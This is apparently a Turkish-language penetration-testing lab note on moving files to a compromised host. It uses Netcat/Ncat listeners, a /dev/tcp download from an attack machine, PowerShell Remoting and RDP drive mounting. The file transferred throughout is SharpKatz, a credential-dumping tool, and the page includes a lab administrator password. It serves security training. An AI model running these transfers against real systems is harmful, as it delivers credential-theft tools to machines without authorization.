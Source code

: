 ```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Miscellaneous File Transfer Methods

## Netcat

Netcat veya nc, TCP veya UDP kullanarak ağ bağlantılarından okumak ve bu bağlantılara yazmak için kullanılan bir bilgisayar ağı yardımcı programıdır.

Orijinal Netcat, 1995 yılında Hobbit tarafından piyasaya sürüldü. Bu aracın esnekliği ve kullanışlılığı, Nmap projesini, Netcat aracının daha modern ve gelişmiş bir versiyonu olan Ncat aracını geliştirmeye yöneltti.

### NetCat - Compromised Machine - Listening on Port 8000

```bash
nc -l -p 8000 > SharpKatz.exe
```

### Ncat - Compromised Machine - Listening on Port 8000

```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### NetCat - Attack Host - Sending File to Compromised machine

```bash
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### Ncat - Attack Host - Sending File to Compromised machine

```bash
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### Attack Host - Sending File as Input to Netcat

Ele geçirdiğimiz makinede gelen bağlantıları dinlemek yerine, dosya aktarım işlemini gerçekleştirmek için saldırı makinemizde bulunan bir porta bağlanabiliriz. Bu yöntem, gelen bağlantıları engelleyen bir güvenlik duvarının olduğu senaryolarda kullanışlıdır. Örneğin 443 numaralı portu dinleyelim ve ilgili dosyayı Netcat aracına girdi olarak gönderelim:

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Compromised Machine Connect to Netcat to Receive the File

```bash
nc 192.168.49.128 443 > SharpKatz.exe
```

### Attack Host - Sending File as Input to Ncat

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Compromised Machine Connect to Ncat to Receive the File

```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

Ele geçirdiğimiz makinede Netcat veya Ncat yoksa [/dev/tcp](https://tldp.org/LDP/abs/html/devref1.html) kullanılabilir:

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer

Dosya aktarımı için HTTP, HTTPS veya SMB protokollerinin kullanılamadığı senaryolar ile karşılaşabiliriz. Böyle durumlarda, dosya aktarım işlemlerini gerçekleştirmek için [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) (WinRM) kullanılabilir.

PowerShell Remoting, PowerShell oturumlarını kullanarak uzaktaki bir bilgisayarda komut dosyaları veya komutlar yürütmemize olanak tanır. PowerShell uzaktan iletişimi etkinleştirmek HTTP ve HTTPS dinleyicileri oluşturur. Dinleyiciler, HTTP için 5985/tcp ve HTTPS için 5986/tcp portlarında çalışır.

Uzak bir bilgisayarda PowerShell Remoting oturumu oluşturmak için aşağıdakiler gereklidir:

* Yönetici erişimine sahip olmak.
* Remote Management Users grubunun üyesi olmak veya oturum yapılandırmasında PowerShell Remoting için açık izinlere sahip olmak.

Örneğin `DC01` bilgisayarından `DATABASE01` bilgisayarına (ve tersi) dosya aktarmamız gereksin. Bu örnekte `DC01` bilgisayarında Administrator olarak bir oturumumuz bulunmaktadır. Aynı zamanda kullanıcı `DATABASE01` üzerinde yönetici haklarına sahip ve PowerShell Remoting etkin durumdadır.

Aşağıda verilen komut, `DATABASE01` bilgisayarında 5985/tcp WinRM açık olup olmadığını (`DC01` bilgisayarından) test etmektedir:

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```text title="Output"
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Bu oturum halihazırda `DATABASE01` üzerinde gerekli ayrıcalıklara sahip olduğundan kimlik bilgilerinin belirtilmesine gerek yoktur. Aşağıdaki örnekte `DATABASE01` adlı uzak bilgisayarda bir oturum oluşturulmakta ve sonuçlar bir değişkende saklanmaktadır:

```powershell
$Session = New-PSSession -ComputerName DATABASE01
```

### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell
Copy-Item -Path "C:\samplefile.txt" -ToSession $Session -Destination "C:\Users\Administrator\Desktop\"
```

### Copy DATABASE.txt from DATABASE01 Session to our Localhost

```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination "C:\" -FromSession $Session
```

## RDP

Bir Linux klasörünü `#!bash rdesktop` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

Bir Linux klasörünü `#!bash xfreerdp` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
xfreerdp /dynamic-resolution /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

Dizine erişmek için tsclient (Terminal Server Client) yoluna bağlanabiliriz:

![](../assets/images/tsclient.jpg)

Alternatif olarak [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) uzak masaüstü istemcisi kullanılabilir:

![](../assets/images/rdp.png)

Sürücüyü seçtikten sonra uzak oturumda bu sürücüyle etkileşime geçebiliriz. Bu sürücü, hedef bilgisayarda oturum açan diğer kullanıcılar tarafından (RDP oturumunu ele geçirmeyi başarsalar bile) erişilemez.

## Practice Makes Perfect

Bu modülde öğrenilen bilgiler aşağıdaki modüllerde de kullanışlı olacaktır:

* Active Directory Enumeration and Attacks (Skills Assessments 1 & 2)
* Pivoting, Tunnelling & Port Forwarding
* Attacking Enterprise Networks
* Shells & Payloads
